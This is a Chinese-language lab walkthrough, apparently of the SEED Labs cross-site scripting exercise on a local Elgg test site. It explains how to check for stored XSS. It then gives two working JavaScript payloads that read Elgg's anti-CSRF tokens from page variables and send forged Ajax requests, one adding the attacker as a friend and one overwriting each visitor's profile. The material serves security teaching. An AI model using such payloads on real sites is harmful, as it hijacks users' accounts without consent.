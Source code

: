 # XSS攻击

## 先尝试是否可以注入JavaScript代码

在Samy个人资料Brief description区域输入：
```javascript
<script>alert("XSS");</script>
```
当访问Samy个人主页时，都会有弹框：  
![判断是否存在xss漏洞](../img/xss-vul.png)

说明这个网络应用程序存在XSS漏洞。

## 实验一：通过XSS攻击成为他人的好友

攻击要实现的目标是当其他人访问Samy主页时，自动把Samy加为其好友。

### 观察所需字段

首先登录Samy账户，单击"添加好友"，把Charlie加为好友
![添加好友请求](../img/xss-addfriend.png)
请求url：  
```bash
http://www.xsslabelgg.com/action/friends/add?friend=46&__elgg_ts=1619057435&__elgg_token=JyjS52JvJcwI4nhsiy4e_g&__elgg_ts=1619057435&__elgg_token=JyjS52JvJcwI4nhsiy4e_g
```
cookie浏览器会自动设置，故不用关心这个值  

!!! warning

    __elgg_ts和__elgg_token是为了应对CSRF攻击的对策，xss实验中又被打开了，故要正确设置这两个值

故主要挑战在于如何找出__elgg_ts和__elgg_token两个值。当浏览Elgg页面时，右击--View Page Source  
```javascript
<script>
var elgg = {"config":{"lastcache":1549469404,"viewtype":"default","simplecache_enabled":1},"security":{"token":{"__elgg_ts":1619057910,"__elgg_token":"ILY6_jevictA27xGzCMI_g"}},"session":{"user":{"guid":47,"type":"user","subtype":"","owner_guid":47,"container_guid":0,"site_guid":1,"time_created":"2017-07-26T20:30:59+00:00","time_updated":"2021-04-22T01:55:28+00:00","url":"http:\/\/www.xsslabelgg.com\/profile\/samy","name":"Samy","username":"samy","language":"en","admin":false},"token":"WZEvmX7f1a5pubrP72LT5O"},"_data":{}};
</script>
```
可知这两个值可以通过elgg.security.token.__elgg_ts和elgg.security.token.__elgg_token这两个js变量获取。

从members页面可以看到Samy账户id为47  
![samy的id](../img/xss-samy.png)

### 构造添加好友请求

CSRF需要构造一个恶意网页，而XSS则是从一个Elgg页面发送请求。如果只是发送一个普通的http请求，将
导致浏览器离开当前页面从而引起用户警觉。可以使用Ajax在后台发送http请求。

```javascript
<script type="text/javascript">
window.onload = function() {
  var Ajax = null;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  var sendurl = "http://www.xsslabelgg.com/action/friends/add" 
                + "?friend=47" + token + ts;
  
  Ajax = new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  Ajax.send();
}
</script>
```

### 把恶意代码放到Samy的个人主页

![samy的恶意代码](../img/xss-samy-evil.png)

!!! warning 

    这个区域编辑器默认模式支持格式化文本，会向文本添加格式数据，故要点击Edit HTML切换到明文模式。

!!! Note

    如果没有提供明文编辑器，可以使用浏览器扩展来删除HTTP请求中的格式化数据，或使用其他客户端（如curl）
    来发送请求。

### 其他人访问Samy主页就会添加他为好友

登陆alice账户，访问samy，发现samy已经在好友列表中，实验成功。
![xss攻击成功](../img/xss-samy-website.png)

## 实验二：使用XSS攻击更改他人主页

### 观察所需字段

![更改个人信息](../img/xss-edit-profile.png)

看到参数如下：
![更改主页的参数](../img/xss-params.png)

### 构造Ajax请求改个人信息

```javascript
<script type="text/javascript">
window.onload = function() {
  var Ajax = null;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var name = "&name=" + elgg.session.user.name;
  var desc = "&description=Samy is my hero" + "&accesslevel[description]=2";
  
  var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;
  if (elgg.session.user.guid != 47){
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
  }
}
</script>
```
再把恶意代码放入个人主页

### 其他人访问Samy主页就会更新自己的主页

登陆alice账户，访问samy主页，会发现自己的主页已经被改掉  
![攻击主页成功](../img/xss-webpage.png)


